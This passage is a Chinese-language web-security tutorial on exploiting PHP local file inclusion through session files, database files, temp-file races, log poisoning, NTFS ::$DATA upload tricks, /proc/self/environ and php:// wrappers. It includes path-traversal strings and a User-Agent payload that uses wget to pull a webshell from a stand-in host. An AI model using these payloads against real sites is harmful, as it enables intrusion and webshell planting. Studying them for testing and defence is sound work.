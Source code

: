 ![avatar](../images/session%20enable.png)
我们从 PHPSESSID 中得到我们的 session 名以后，我们就一边疯狂请求 upload 页面 一边疯狂包含我们的 session 文件就好了

## 其他本地文件包含利用姿势
• **数据库文件**<br>
数据库就是从纯文件的管理方式中进化而来，在计算机中存储的依然是文件，那么我们能不能在数据库中动动手脚，向数据库中的某个文件注入我们的恶意代码然后本地文件包含呢？当然可以，在 phpmyadmin 4.8.1 后台 getshell 中漏洞的发现者就是利用了这样一种技术成功包含了数据库的文件

• **临时文件**<br>
向服务器上任意php文件以 form-data 方式提交请求上传数据时，会生成临时文件,通过phpinfo来获取临时文件的路径以及名称,然后临时文件在极短时间被删除的时候,需要条件竞争包含临时文件，然后如果临时文件的内容是一个向 web 目录写一句话，我们就能成功执行这段代码，并写 shell 到 web 目录最终拿到webshell(临时文件的文件名和位置需要在phpinfo 页面中查看)

• **日志文件**<br>
日志文件污染是通过将注入目标系统的代码写入到日志文件中。通常，访问目标系统上的某些对外开放的服务时，系统会自动将访问记录写入到日志文件中，利用这个机制，有可能会将代码写入到日志中。例如，利用一个包含PHP反弹shell的URL访问目标系统时，目标系统会返回一个404页面，并将创建一个apache的访问记录，记录中会包含之前的PHP反弹shell。利用之前已经发现的文件包含漏洞，可以解析apache的日志文件，从而执行日志中的PHP反弹shell。
日志文件的位置的确定就要前期的信息收集，一方面确定默认的日志的位置，另一方面可以利用这个包含漏洞包含一些配置文件寻找日志的位置。

• **包含上传的文件**<br>
如果上传的文件名字为：test.php::$DATA，会在服务器上生成一个test.php的文件，其中内容和所上传文件内容相同，并被解析。假设我们需要上传的文件内容为：<?php phpinfo();?>下面是上传是会出现的现象：
```
Test.php:a.jpg     生成Test.php  文件内容为空
Test.php::$DATA  生成test.php  文件内容为<?php phpinfo();?>
Test.php::$INDEX_ALLOCATION  生成test.php文件夹
Test.php::$DATA\0.jpg  生成0.jpg  文件内容为<?php phpinfo();?>
Test.php::$DATA\aaa.jpg  生成aaa.jpg  文件内容为<?php phpinfo();?>
PS: 上传test.php:a.jpg的时候其实是在服务器上正常生成了一个数据流文件，可以通过notepad test.php:a.jpg查看内容，而test.php为空也是正常的。
```
• **包含/proc/self/environ文件**<br>
```
1）找到文件包含漏洞
测试一下找出来www.aaa.com/view.php?page=../ 或者www.aaa.com/view.php?page=../../../../../etc/passwd
2）检查proc/self/environ是否可用访问www.aaa.com/view.php?page=../../../../../proc/self/environ，可访问就能利用了
3）注入代码
访问www.aaa.com/view.php?page=../../../../../proc/self/environ
选择User-Agent 写代码如下：<?system('wget http://www.yourweb.com/oneword.txt -O shell.php');?>然后提交请求。
```
# php 伪协议包含
php://input 你要用还是需要 allow_url_include 打开<br>
data:// 更是需要 php_url_fopen 和 php_uri_include 都打开<br>
## **php://input**<br>
php://input 是个可以访问请求的原始数据的只读流(这个原始数据指的是POST数据)